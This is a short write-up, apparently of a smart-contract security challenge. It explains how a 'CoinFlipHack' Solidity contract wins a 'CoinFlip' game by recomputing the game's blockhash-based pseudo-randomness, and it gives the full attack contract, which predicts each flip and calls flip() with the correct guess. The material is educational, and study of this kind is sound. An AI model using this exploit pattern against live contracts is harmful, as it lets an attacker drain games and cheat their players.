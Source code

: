 # CoinFlipHack Exploit Explanation

CoinFlipHack takes advantage of a vulnerability in the CoinFlip contract by predicting the outcome of the coin flip using the same pseudo-randomness approach, which allows it to gain an unfair advantage in the game. To exploit this vulnerability, the CoinFlipHack contract is first deployed with the address of the CoinFlip contract as a parameter, enabling it to interact with CoinFlip.

Next, the attacker calls the attack() function in the CoinFlipHack contract, and inside this function, the contract retrieves the blockhash of the last block. This blockhash is also used by CoinFlip to determine the flip outcome. CoinFlipHack then calculates the result of the division by FACTOR (a large constant) in the same manner as the CoinFlip contract.

Armed with the division result, CoinFlipHack determines the correct guess (true for heads, false for tails) and proceeds to call the flip() function in the CoinFlip contract using the predicted guess. Since it employs the same logic as the CoinFlip contract to determine the outcome, the guess will be correct.

By repeating the attack() function 10 times, the attacker can achieve 10 consecutive wins in the CoinFlip game. This is possible because the CoinFlipHack contract essentially mirrors the CoinFlip contract's method for determining the flip outcome, exploiting the contract's reliance on the predictable blockhash for randomness.

interface ICoinFlip {
function consecutiveWins() external view returns (uint256);

    function flip(bool) external returns (bool);

}

contract CoinFlipHack {
ICoinFlip private \_coinFlip;
uint256 private lastHash;
uint256 private FACTOR =
57896044618658097711785492504343953926634992332820282019728792003956564819968;
bool public guessSide;

    constructor(address _addr) {
        _coinFlip = ICoinFlip(_addr);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 currentCoinFlip = uint256(uint256(blockValue) / FACTOR);
        guessSide = currentCoinFlip == 1 ? true : false;
        _coinFlip.flip(guessSide);
    }

}
